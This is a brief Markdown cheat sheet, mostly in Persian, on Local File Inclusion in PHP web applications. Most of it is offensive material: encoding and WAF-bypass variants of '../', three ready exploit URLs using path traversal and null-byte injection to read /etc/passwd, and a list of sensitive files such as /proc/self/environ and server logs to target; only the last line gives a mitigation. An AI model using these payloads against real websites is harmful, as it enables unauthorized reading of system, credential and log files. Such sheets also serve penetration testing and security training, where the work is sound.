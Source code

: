 # Local File Inclusion

## Concept
- از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
- همچنین فایل های تصادفی مانند /etc/passwd
- همچنین ممکن است منجر به Information Disclosure شود

## Bypass
- Encoding
  - ```.``` => %2e
  - ```/``` => %2f
  - ```../``` => %2e%2e%2f
- WAF Bypass
  - ```../``` => ```..././``` 
  - ```../``` => ```....//``` 

## Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 
  - ```example2.php?page=intro%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00``` 

## Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
## Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

